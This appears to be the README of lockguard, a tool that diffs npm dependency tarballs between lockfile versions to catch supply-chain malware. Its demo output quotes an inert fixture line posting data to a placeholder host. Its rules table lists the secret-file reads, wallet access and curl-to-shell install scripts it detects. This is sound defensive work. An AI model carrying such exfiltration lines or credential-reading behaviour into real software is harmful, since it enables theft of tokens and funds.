


# lockguard

lockguard looks at what a dependency bump *actually* changes before you merge it. Point it at two versions of your `package-lock.json` and it downloads the old and new tarball of every package that changed, diffs them, and tells you if the new code looks like malware. It runs as a CLI or as a GitHub Action.

## The problem

A dependency bump shows up in a pull request as one changed line in the lockfile: `"version": "4.4.1"` → `"version": "4.4.2"`. The code that version pulls in never appears in the diff, so nobody reviews it.

Attackers rely on that. On 8 September 2025 a phished maintainer account was used to publish poisoned versions of `chalk`, `debug` and 16 other packages, about 2 billion weekly downloads between them. The injected code hijacked cryptocurrency transactions in the browser. A week later the Shai-Hulud worm used `postinstall` scripts to steal npm and cloud tokens, then used those tokens to publish infected versions of more than 500 further packages. The 2024 xz backdoor taught the same lesson from another direction: the malicious code was in the release tarball but not in the public repository, so reading the source on GitHub would not have found it.

So lockguard reads the part of the PR nobody else reads: the tarballs that actually get installed.

## Demo



<!-- To record an animated version: `vhs docs/demo.tape` writes docs/demo.gif -->

`lockguard demo` runs the full pipeline against two bundled, inert fixture packages. `fake-logger 1.0.0 → 1.0.1` copies the *shape* of the September 2025 attack. `fake-utils 2.3.0 → 2.3.1` is a real one-line bugfix. No network access is needed.

```text
$ lockguard demo
lockguard report - 2 packages changed, 1 CRITICAL
Package       Change          Risk        Findings
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
fake-logger   1.0.0 → 1.0.1    CRITICAL   install_scripts, network_access, obfuscation,
                                          provenance_dropped, publisher_change, secret_access
fake-utils    2.3.0 → 2.3.1    clean      -

fake-logger@1.0.1  (1.0.0 → 1.0.1)
  [critical] install_scripts      package.json:9  new "postinstall" script: node setup.js - runs setup.js,
                                  which was added or changed in this release
      > "postinstall": "node setup.js"
  [high]     network_access       setup.js:10  fetch() call; hardcoded URL to example.invalid
      > fetch('https://example.invalid/collect', { method: 'POST', body: '{"fixture":true}' });
  [high]     obfuscation          index.js:31  obfuscator-style identifiers (_0x...): 14 occurrences of 6 names
  [high]     obfuscation          index.js:41  base64 string of 4,120 chars, entropy 6.0; line of 4,139 chars
                                  in a file that was not minified before
  [high]     provenance_dropped   1.0.0 was published with provenance attestations, 1.0.1 has none
  [high]     publisher_change     published by "new-user-123", previous versions by "original-dev"
                                  - first release from this account
  [high]     secret_access        index.js:42  Ethereum address regex
  [high]     secret_access        index.js:47  reads window.ethereum
  ...

Not analyzed (1):
  - internal-tool@2.0.0  git dependency

Verdict:  CRITICAL   (fails threshold high)
```

The exit code is `1`, so a CI job running this would fail and the pull request would be blocked.

## Quick start

### Install

```bash
pipx install lockguard          # or: pip install lockguard
# from a clone:
pip install -e ".[dev]"
```

Python 3.10 or newer is required. The only runtime dependency is [`rich`](https://github.com/Textualize/rich).

### Command line

```bash
# Compare two lockfiles
lockguard diff old/package-lock.json package-lock.json

# Compare the lockfile at a git ref with your working tree
lockguard git --base origin/main
lockguard git --base origin/main --lockfile frontend/package-lock.json

# Analyze one bump straight from the npm registry
lockguard pkg debug 4.4.1 4.4.3

# Try it on the bundled fixtures
lockguard demo

# List the rules
lockguard rules
```

Common flags (these go after the command):

| Flag | Meaning |
|---|---|
| `--format pretty\|markdown\|json` | Terminal report (default), a PR-comment-ready Markdown report, or machine-readable JSON |
| `--fail-on low\|medium\|high\|critical` | Exit `1` if any finding is at least this severe (default: config file, otherwise `high`) |
| `--config PATH` | Use this config file instead of `.lockguardrc.json` |
| `--no-color` | Plain output (`NO_COLOR` is honored too) |
| `--verbose` | Log progress to stderr |

Exit codes: 0 = pass, 1 = findings at or above the threshold, 2 = lockguard itself failed (bad lockfile, git error, invalid config).

### GitHub Action

```yaml
# .github/workflows/lockguard.yml
name: lockguard
on:
  pull_request:
    paths: ["package-lock.json", "**/package-lock.json"]

permissions:
  contents: read
  pull-requests: write   # to post the report comment

jobs:
  lockguard:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: dushish/lockguard@v0.1.0
        with:
          fail-on: high                  # low | medium | high | critical
          # lockfile: frontend/package-lock.json
          # comment: "false"
```

The action installs lockguard on Python 3.12 and runs `lockguard git --base <PR base commit> --format markdown`. It then:

1. writes the report to the job summary;
2. posts one PR comment, or updates it on later pushes (it finds the comment by the `<!-- lockguard-report -->` marker);
3. fails the job when findings reach `fail-on`.

On pull requests from forks the token is read-only, so no comment is posted. The report still appears in the job summary. [`.github/workflows/example.yml`](.github/workflows/example.yml) contains a working example.

> Note: in `git` mode lockguard reads `.lockguardrc.json` from the base revision, not from the working tree. This stops a malicious pull request from adding ignore rules for its own payload.

## Rules

Every rule looks only at code that is added or changed in the new version. A line counts as new only if its text (ignoring whitespace) appears nowhere in the old version, so moved, re-indented or copied code is never flagged. Minified bundles are compared statement by statement, so a one-byte change does not flag the whole bundle.

When the old version already used a capability (an HTTP client calling `fetch`, a bundler spawning processes), new uses of it are downgraded to low. What stands out is a capability that appears for the first time.

| Rule | Severity | What it flags |
|---|---|---|
| `install_scripts` | high / critical | `preinstall`, `install`, `postinstall` or `prepare` added or changed. Critical when the script runs a file that changed in this release, or uses `curl`, `wget`, PowerShell or pipes into a shell. A new `binding.gyp` (implicit `node-gyp` install) is also flagged. |
| `network_access` | medium → high | New `fetch(`, `http(s).request/get`, `net.connect`, `dns.*`, `XMLHttpRequest`, `WebSocket`, `sendBeacon`, hardcoded URLs and raw IP addresses. High when a network call and a new destination appear together. |
| `process_exec` | high | New `child_process`, `exec(`, `spawn(`, `execSync(`, `execFile(`, Bun/Deno spawn. |
| `secret_access` | high | Reads of token-like `process.env` keys or the whole `process.env`; `.npmrc`, `.ssh`, `.aws`, `.gitconfig`; home-directory file reads; `window.ethereum`, wallet RPC methods, ETH/BTC/SOL address regexes and hardcoded addresses. |
| `obfuscation` | high | `eval(`, `new Function(`, `vm.run*`; `atob`/`Buffer.from(..., 'base64')` in a file that executes dynamic code; heavy `\xNN` escapes; `_0x1a2b`-style identifiers; base64 blobs over 200 chars; lines over 1000 chars in previously readable files; strings over 100 chars with Shannon entropy above 4.5 bits/char. |
| `new_binaries` | medium | Added or changed `.node`, `.exe`, `.dll`, `.so`, `.dylib`, `.wasm`, archives, files containing NUL bytes, and files too large to scan (over 2 MB). |
| `publisher_change` | high | The npm account (`_npmUser`) that published the new version has never published this package before. Medium if that account was already a listed maintainer; low if it has published the package before. |
| `provenance_dropped` | high | The old version had provenance attestations (`dist.attestations`) and the new one has none. |
| `suspicious_bump` | medium | A patch or minor bump that adds over 30% new code, or files in directories the package never had. Also flags versions published less than 24 hours ago. |
| `integrity_mismatch` | critical | The downloaded tarball does not match the lockfile's `integrity` (SRI sha512) hash. |
| `unexpected_source` | high | `resolved` points to a host other than the registry, uses plain `http`, or points to a different package's tarball (lockfile injection). lockguard never downloads from such a URL. |

lockguard also reports `registry_unavailable` when a version is missing from the registry. npm removes malicious versions, so an unpublished version is itself a warning sign. It reports `tarball_error` when a tarball cannot be read.

A package's risk is the highest severity among its findings. The overall verdict is the highest risk across all packages.

## Configuration

Create `.lockguardrc.json` in the directory where you run lockguard (see [`.lockguardrc.example.json`](.lockguardrc.example.json)):

```json
{
  "failOn": "high",
  "ignore": [
    { "package": "some-pkg", "rule": "network_access" },
    { "package": "esbuild", "rule": "install_scripts" },
    { "package": "@types/*" }
  ],
  "allowedHosts": ["npm.internal.example.com"]
}
```

- `failOn`: the default threshold. `--fail-on` overrides it.
- `ignore`: suppresses findings that match every field given. `package`, `rule` and `version` accept shell wildcards, and each entry needs `package` or `rule`. Ignored findings are counted in the report.
- `allowedHosts`: extra hosts (for example a private registry) that tarballs may be downloaded from. `registry.npmjs.org`, `registry.yarnpkg.com` and `$LOCKGUARD_REGISTRY` are always allowed.

Unknown keys are an error, so a typo cannot silently turn protection off.

## How it works



1. Read both lockfiles (`lockfileVersion` 2 and 3; v1 is rejected with instructions). Git, `file:`, `link:` and workspace entries cannot be downloaded, so they are listed as *not analyzed*.
2. Compute changes per package name, which covers nested (transitive) and scoped packages. Re-hoisting a package is not a change. The same version with an edited `resolved` or `integrity` value is a change.
3. Fetch each changed package's packument once, plus the old and new tarballs from the registry. At most 6 downloads run at a time, with two retries and a per-run cache.
4. Verify each tarball against the lockfile's `integrity` hash (or the registry's hash for `lockguard pkg`).
5. Diff both tarballs in memory. Nothing is written to disk and nothing is executed.
6. Analyze with the independent rule modules in `src/lockguard/rules/`. Each is a `check(ctx) -> list[Finding]` function, discovered automatically.
7. Report in the terminal, as Markdown or as JSON, and exit non-zero when the threshold is reached.

No account, no telemetry. The only network traffic is downloads from the npm registry.

## Limitations

- These are heuristics. A determined attacker can write malware that none of the patterns match. A clean report lowers risk but does not prove a package is safe.
- lockguard complements good install hygiene; it does not replace it. Keep using `npm ci`, `--ignore-scripts` where you can, exact version pinning, a waiting period before adopting new releases, and `npm audit signatures` or provenance verification.
- Brand-new dependencies have no previous version to compare against, so all their code counts as added. Expect more findings for them.
- Only npm `package-lock.json` is supported for now. Yarn and pnpm lockfiles are not.
- Private registries that need authentication are not supported yet. Such packages show up as `registry_unavailable`.
- Files over 2 MB are reported but not scanned.

## Comparison

Commercial services such as [Socket.dev](https://socket.dev) do this kind of analysis (and more) as a hosted product. lockguard is the free, MIT-licensed alternative: it runs locally or in your own CI, needs no account, sends none of your data anywhere, and every heuristic is a short, readable Python module you can audit or change.

## Roadmap

- PyPI support: `requirements.txt` and `poetry.lock`, reusing the same diff and rule engine.
- A source-vs-tarball "provenance gap" check: diff the published tarball against the tagged commit in the package's repository, the gap the xz backdoor lived in.
- `yarn.lock` and `pnpm-lock.yaml` parsers.
- Authenticated private registries.
- SARIF output for GitHub code scanning.

## Contributing

Contributions are welcome, especially new rules and false-positive reports from real packages.

```bash
git clone https://github.com/dushish/lockguard && cd lockguard
python -m venv .venv && . .venv/bin/activate
pip install -e ".[dev]"
pytest              # the suite never touches the network
ruff check . && ruff format --check .
mypy src
lockguard demo
```

- Adding a rule: create `src/lockguard/rules/<name>.py` with `RULE_ID`, `DESCRIPTION`, `SEVERITY` and `check(ctx: RuleContext) -> list[Finding]`. Registration is automatic. Only look at `ctx.diff` (added and changed code) or metadata, and add one positive and one negative test to `tests/test_rules.py`.
- Fixtures must stay inert. Anything under `tests/fixtures` must never make network calls, read files or execute code. Use `https://example.invalid` for URLs, keep suspicious statements unreachable, and start each file with a comment saying it is a harmless test fixture.
- Output format changes: regenerate the Markdown snapshot with `LOCKGUARD_UPDATE_SNAPSHOTS=1 pytest tests/test_markdown_snapshot.py` and the screenshot with `python scripts/demo.py --svg docs/demo.svg`.
- Please report security issues privately through GitHub security advisories, not in public issues.

## License

[MIT](LICENSE)
